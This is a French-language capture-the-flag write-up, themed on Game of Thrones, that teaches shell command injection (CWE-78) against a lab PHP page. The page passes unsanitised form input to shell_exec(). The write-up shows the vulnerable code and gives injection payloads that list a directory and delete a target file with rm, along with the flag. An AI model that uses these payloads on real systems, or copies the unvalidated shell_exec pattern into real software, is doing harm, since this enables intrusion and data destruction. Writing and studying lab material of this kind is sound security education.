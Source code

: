 ```yaml
---
title: write-up 7
prev: "/write-ups/wu6"
---
```


# CTF - Injection de Commande (CWE-78) : Suppression du Rapport Secret  

## Objectif  

Bravo ! Tu as réussi à infiltrer le bureau de Tywin Lannister, où sont stockés les rapports des espions de tout Westeros.  
Parmi eux, un rapport critique détaillant les fortifications de Winterfell est classé dans la bibliothèque de Tywin.  
**Ta mission est de le détruire en exploitant une injection de commande.**  

**Mission : Supprimer le fichier `fortifications_winterfell.pdf`** via une **injection de commande Shell**.

---

## **Environnement**
- **Cible :** `http://lannister.castral-roc.lannisport.south/rapports_espions.php`
- **Répertoire des rapports :** `/var/www/reports/`
- **Fichier à supprimer :** `fortifications_winterfell.pdf`
- **Failles présentes :**  
  - **Injection de commande (`CWE-78`) via `shell_exec()`**  
  - **Aucune validation des entrées utilisateur**  

---
## **Étape 1 : Analyser la vulnérabilité**
Sur la page **`rapports_espions.php`**, il est possible de **rechercher un rapport d’espionnage** en fonction d’un **nom de famille** (Stark, Lannister, Baratheon…).

### **Code vulnérable en PHP**
```php
$report_dir = "/var/www/reports/";

if ($_SERVER["REQUEST_METHOD"] == "POST" && isset($_POST['family'])) {
    $family = $_POST['family'];
    
    // ⚠️ Injection de commande possible ici
    $command = "ls \"$report_dir\"* | grep -i '$family' ";
    $output = shell_exec($command);
    
    if ($output) {
        $files = explode("\n", trim($output));
    } else {
        $files = [];
    }
}
```

## **🔍 Étape 2 : Vérifier l'injection de commande**  

Sur la page **rapports_espions.php**, la barre de recherche permet de filtrer les fichiers en fonction du nom d’une famille. L'application utilise une commande grep vulnérable via shell_exec(), ce qui permet une **injection de commande Shell**.  

### **📌 Test initial : Vérifier si la commande est injectable**  

Dans la barre de recherche, entrez :  stark’; ls -la /var/www/reports/; echo ’


✅ **Si la page affiche la liste des fichiers dans /var/www/reports/, alors l’injection fonctionne.**

### **📜 Explication de l'injection**
- **stark'** → Nom d’une famille valide pour éviter les erreurs.  
- **; ls -la /var/www/reports/;** → Exécute la commande `ls` pour lister tous les fichiers du répertoire des rapports.  
- **`echo '`** → Ferme proprement la commande pour éviter les erreurs d'affichage.  

Si cette requête fonctionne, nous avons la **confirmation** que l'application est vulnérable et que nous pouvons injecter d'autres commandes pour **supprimer le fichier cible**.  


## **💀 Étape 3 : Suppression du rapport classifié**  

Maintenant que nous avons confirmé l'injection de commande, nous allons exploiter cette faille pour **supprimer le rapport des fortifications de Winterfell**.

### **📌 Injection de la commande `rm`**
Dans la barre de recherche, entrez :  lannister’; rm /var/www/reports/fortifications_winterfell.pdf; echo ’

### **📜 Explication du payload**
- **`lannister'`** → Un mot-clé valide pour éviter une erreur dans la commande initiale `grep`.  
- **`; rm /var/www/reports/fortifications_winterfell.pdf;`** → Supprime le fichier cible.  
- **`echo '`** → Ferme correctement la commande pour éviter les erreurs d'affichage.  

✅ **Si la suppression réussit, l’application affichera un flag :**  Flag : WINTERFELL_SECURITY_BREACH


🚀 **Le fichier critique a été détruit, mission accomplie !** 🎯🔥  

## **🕵️ Étape 4 : Vérification de la suppression**  

Pour confirmer que le fichier a bien été supprimé, nous allons exécuter une commande `ls` afin de **vérifier le contenu du répertoire des rapports**.

### **📌 Commande à injecter**
Dans la barre de recherche, entrez :  lannister’; ls -la /var/www/reports/; echo ’

## **🏆 Validation du CTF**  

🚀 **Mission accomplie !** Vous avez exploité une **injection de commande (CWE-78)** pour **supprimer un rapport classifié**.

📌 **Flag :** `WINTERFELL_SECURITY_BREACH` ✅  
📌 **Objectif atteint :** Les fortifications de Winterfell sont protégées ! 🏰🔥  

---

## **🎯 Récapitulatif**  

✔ **Exploitation d’une injection de commande (`CWE-78`)** via `shell_exec()`.  
✔ **Injection de `rm` pour supprimer un fichier sensible.**  
✔ **Vérification de la suppression avec `ls`.**  

🔥 **Félicitations ! Prêt pour la prochaine mission ?** 🚀💀  